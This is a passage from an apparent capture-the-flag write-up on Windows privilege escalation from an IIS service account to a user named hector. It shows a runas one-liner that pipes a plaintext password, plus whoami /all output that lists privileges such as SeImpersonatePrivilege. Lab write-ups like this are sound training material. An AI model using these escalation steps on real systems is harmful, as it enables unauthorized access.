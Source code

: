 Ok so we are logged as `nt authority\iusr`, a service account.

### Privilege Escalation : isur to hector

**TL;DR**: powershell _runas_

So we may need to log as _hector_ or _manager_ to see interesting stuff.

But `runas` tricks like this one never works outside a true graphical terminal.

```
cmd /C echo l33th4x0rhector | runas /user:hector /netonly cmd.exe
```

So I had to figure out how to do it in powershell.

Before let's check detailed permissions:

```
C:\inetpub\wwwroot>whoami /all
whoami /all

USER INFORMATION
----------------

User Name         SID     
================= ========
nt authority\iusr S-1-5-17

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Group used for deny only                          
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled

ERROR: Unable to get user claims information.
```
